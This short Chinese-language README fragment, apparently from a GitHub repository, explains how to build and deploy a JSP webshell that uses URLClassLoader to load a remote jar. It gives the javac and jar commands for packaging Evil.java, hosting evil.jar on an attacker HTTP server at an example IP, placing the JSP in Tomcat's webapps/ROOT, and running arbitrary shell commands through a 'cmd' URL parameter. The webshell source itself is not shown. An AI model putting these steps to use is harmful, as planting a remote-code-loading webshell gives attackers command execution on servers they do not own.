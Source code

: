 ### URLClassLoader加载远程jar的JSP Webshell

编译打包jar：
```
javac Evil.java
jar -cvf evil.jar Evil.class
```

使用：
```
1.把evil.jar放到可被访问的HTTP服务器，例：http://1.1.1.1:23232/evil.jar

2.修改evil.jar加载jar的url

3.把jsp文件放到能被解析的服务器目录，例：tomcat的webapps/ROOT

4.在浏览器访问4.jsp，并使用参数cmd传入需要远程执行的命令，例：http://127.0.0.1:8080/4.jsp?cmd=whoami

5.服务器将会执行相应的shell命令，最后回显
```